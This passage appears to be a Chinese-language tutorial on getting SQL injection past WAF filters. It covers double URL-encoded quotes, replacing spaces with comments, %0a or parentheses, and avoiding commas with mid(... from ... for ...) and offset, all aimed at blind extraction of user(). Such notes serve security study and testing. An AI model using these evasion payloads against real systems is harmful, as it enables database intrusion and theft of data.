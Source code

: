 %2527 ->urldecode-> %27 ->urldecode->  '
使用了两次urldecode,我们构造一个两解码后生成引号的绕过

## 空格绕过
在SQL注入时，空格的使用是非常普遍的，如果目标对空格进行了限制，这个时候有这几种绕过方法：

如我们原来要查询用户

```
select username from user
```
用注释替换空格：

```
select/**/username/**/from/**/user
```
用回车（%0a）来替换空格

```
select%0ausername%0afrom%0auser

```
也可以使用其他空白字符:%01,%0a,%1a.....
如果括号没有被过滤，那么能计算的一些式子也可以用括号来绕过
如

```
select username() from user where 1=1 and 2=2
```
可以写成

```
select(username())from(user)where(1=1)and(2=2)
```
式子使用空格包裹后就不需要空格隔开了,虽然还有空格无法实现替换，但是在某些情况是一个非常实用的技巧。

## 逗号绕过
在某些WAF中对逗号进行了限制，或者一些通过逗号分隔post请求的环境，我们需要绕过逗号.
如我们要判断user第一个字符的ascii是否小于150，小于则返回1，否则返回0

以知

```
select 5<9;  //返回1,也就是布尔值为真返回1
select 5>9;  //返回0,布尔值为假返回0
```

那么为了实现上面的功能应该这么构造

```
select ascii(mid(user(),1,1))<150
```

但是如果没了逗号，我们就得用from x for y的形式：

```
select mid(user() from 1 for 1)<150
```
或者使用limit也会用到逗号.
如果逗号无法使用,在limit中可以使用offset
